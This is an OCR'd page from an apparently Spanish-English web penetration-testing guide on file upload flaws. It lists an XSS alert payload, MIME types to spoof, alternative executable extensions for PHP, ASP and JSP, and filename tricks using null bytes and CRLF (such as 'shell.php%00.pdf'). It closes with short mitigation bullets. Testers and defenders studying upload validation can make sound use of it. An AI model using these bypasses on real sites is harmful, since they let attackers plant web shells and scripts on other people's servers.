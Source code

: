 \begin{lstlisting}[numbers=none]
	<script>javascript:alert("Hacked pronto seras redireccionado...")</script>
\end{lstlisting}

Change de MimeType to render.

\begin{lstlisting}[numbers=none]

Content-Type: application/x-php

text/x-php
text/html
text/plain
text/x-php
application/x-php
application/x-httpd-php
application/x-httpd-php-source

\end{lstlisting}


Other useful extensions:

\begin{enumerate}
    \item PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc
    \item ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml
    \item JSP: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action Coldfusion: .cfm, .cfml, .cfc, .dbm
    \item Flash: .swf
    \item Perl: .pl, .cgi
\end{enumerate}
 
\begin{lstlisting}[numbers=none]
nombre_archivo.php%0d%0a.pdf
nombre_archivo.php%0d%0a.xslx
nombre_archivo.html%0d%0a.pdf
shell.php%00.pdf
shell.php\x00.pdf
archivo.html\x00.pdf
archivo.php%00.xlsx
archivo.php\x00.xlsx
\end{lstlisting}

\begin{itemize}
	\item Evitar caracteres especiales en el nombre del archivo
\item Evitar extensiones no autorizadas
\item Evitar tamaño muy grande
\item Eviar mime type 

\end{itemize}

\section{Application stored cache on the client verification}

